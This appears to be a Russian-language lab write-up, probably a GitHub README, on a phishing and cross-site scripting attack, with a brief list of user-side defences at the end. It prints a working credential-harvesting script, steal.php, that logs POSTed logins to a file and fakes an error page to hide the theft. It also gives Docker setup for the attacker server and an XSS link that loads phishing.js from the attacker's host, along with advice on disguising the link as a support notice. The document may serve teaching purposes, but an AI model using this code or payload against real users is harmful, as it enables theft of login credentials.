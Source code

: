 **steal.php**
```php
<?php
// steal.php
// Принимаем POST-данные и записываем в файл
file_put_contents('stolen_creds.txt', print_r($_POST, true), FILE_APPEND);

// Можно отправить жертвe на какую-нибудь страницу (или показать "Ошибка")
// Выводим alert, затем сразу уводим пользователя на dashboard.php
echo "<script>
  alert('Error 404');
  window.location.href = 'http://192.168.0.69:2222/dashboard.php';
</script>";
?>
```

Скрипт steal.php:
- принимает данные методом POST;
- сохраняет их в stolen_creds.txt (режим дополнения);
- имитирует ошибку «Error 404» и перенаправляет пользователя в личный кабинет, чтобы замаскировать атаку.

Поднимаем контейнер

**docker-compose.yml**
```
version: '3.8'
services:
  steal:
    build: .
    container_name: phishing_server163
    ports:
      - "1111:80"
```
**Dockerfile**
```
FROM php:8.1-apache

# Копируем все файлы в директорию веб-сервера
COPY . /var/www/html/

# Меняем владельца, чтобы Apache мог читать/писать
RUN chown -R www-data:www-data /var/www/html
```

**Фрагмент кода зашифрованной URL**
```http://192.168.0.69:2222/dashboard.php?payload=<script src="http://192.168.0.114:1111/phishing.js"></script>```

После URL-кодирования подобную ссылку злоумышленник рассылает потенциальным жертвам — например, по почте или в корпоративном мессенджере, маскируя её под уведомление службы поддержки. Открыв ссылку, жертва видит обычную форму входа, но её данные уже перенаправляются на сервер атакующего и записываются в stolen_creds.txt.

### 🎥 Видео-демонстрация атаки
[Смотреть видео в Google Drive](https://drive.google.com/file/d/1HvmrUkwMfCHszaHEOqra8Ls6F6CKHad2/view?usp=sharing)

## 🛡 Защита
Защита от фишинговой атаки в инфраструктуре организации на стороне пользователя:
-	проверка адресной строки перед вводом учётных данных. Пользователь должен визуально подтверждать доменное имя и протокол HTTPS, особенно если ссылка пришла по почте или в мессенджере;
-	двухфакторная аутентификация (2FA). Даже в случае компрометации пароля злоумышленник не сможет войти без дополнительного токена;
-	использование менеджера паролей. Менеджер автоматически подставляет пароль только на легитимном домене и помогает выявить поддельный сайт;
```